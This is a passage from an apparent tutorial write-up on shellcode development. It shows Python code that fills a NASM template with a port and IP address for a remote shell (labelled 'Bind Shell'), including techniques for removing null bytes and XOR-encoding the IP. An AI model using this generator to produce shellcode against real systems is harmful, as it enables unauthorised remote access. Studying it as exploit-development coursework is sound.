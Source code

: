 I won't show the whole script again, as I've already done that. I'll only cover the changes.

First, there's the `main` function. I've added another argument to the script, named `ip`:

```py
def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('-p', '--port', type=int, help='TCP Port for the Bind Shell', required=True, metavar="[1-65535]")
    parser.add_argument('-ip', "--ip", help="IP address of the Bind Shell", required=True)
    parser.add_argument('-t', '--template', help='Path of the NASM template file. Example: -t /tmp/template.nasm', required=True)
    parser.add_argument('-o', '--output', help='Path for the output file. Example: -o /tmp/output.nasm', required=True)

    args = parser.parse_args()

    ip_address = args.ip
    tcp_port = args.port

    if tcp_port not in range(1, 65536):
        print(f"[!] Argument '--port' must be in range [1-65535]")
        sys.exit(1)

    shellcode_template = args.template
    output_file_path = args.output

    replace_template_values(shellcode_template, tcp_port, ip_address, output_file_path)
    generate_shellcode(output_file_path)
```

Other than that, I have changed the function `replace_template_values()`:

```py
def replace_template_values(template_name, tcp_port, ip_address, output_file_path):

    with open(template_name) as f:
        template_code = f.read()

    tcp_port_hex = (tcp_port).to_bytes(2, "little").hex()

    if '00' in tcp_port_hex:
        if '00' in tcp_port_hex[:2]:
            non_null_byte = tcp_port_hex[2:]
            replace_code = f"mov bl, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
        else:
            non_null_byte = tcp_port_hex[:2]
            replace_code = f"mov bh, 0x{non_null_byte}\n    push bx\n    xor ebx, ebx"
    else:
        replace_code = f"push WORD 0x{tcp_port_hex}"
    
    template_code = template_code.replace("{{ TEMPLATE_TCP_PORT }}", replace_code, 1)

    ip_address_bytes = [int(x) for x in ip_address.split(".")][::-1]
    
    if 0 in ip_address_bytes:
        print("[!] Found NULL byte in IP address")

        # choose a random byte from the range(1,256), excluding the bytes that make up the IP address
        random_xor_byte = random.choice(list(set(range(1,256)) - set(ip_address_bytes)))

        # encode XORing DWORD and XORed DWORD to hexadecimal
        xor_dword = (bytes([random_xor_byte]) * 4).hex()
        ip_address_xored_bytes = bytes([x ^ random_xor_byte for x in ip_address_bytes]).hex()
```